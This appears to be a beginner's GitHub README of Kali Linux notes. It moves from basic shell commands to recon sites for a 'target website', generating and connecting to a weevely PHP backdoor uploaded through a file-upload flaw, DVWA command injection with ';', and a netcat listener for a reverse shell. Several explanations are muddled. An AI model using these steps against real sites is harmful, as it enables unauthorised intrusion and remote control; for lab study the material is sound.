 
# kali linux commands

- prints current working directry, uses to redirect to open a file - `pwd`  

- list all files - `ls`

- open a folder - `cd`

- previous folder - `..`  

- prints descrption of a function - `man`   

-  Delete a file `rm -rf` 

- used to update like (winget in windows) - `sudo apt-get update` 

- upgrade kali linux - `sudo apt upgrade` 

- update kali linux - `sudo apt update`

- run 2 commands concurently -  `ls;pwd`

<h3 align="center"> ... </h3>  

## check IP address


- to check the information of the target website  
```
http://whois.domaintools.com/
```
- to check which techonology is used in target website  
```
http://toolbar.netcraft.com/site_report?url=
```

- which which website have same ipaddress  

>if we can hack into 1 we can hack all the other

```
https://www.robtex.com/ 
```  
- Using bing.com, search for `ip: [target ip]`
- <h3 align="center"> ... </h3> 
## FileUploadVulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

<h3 align="center"> ... </h3> 

## Code Execution Vulnerability
- open any searchable website (dvwa- command execution)
- search for any thing and at last __END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS__
- __MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128__
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

- run the following command
```
nc -vv -l -p 8080
```

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
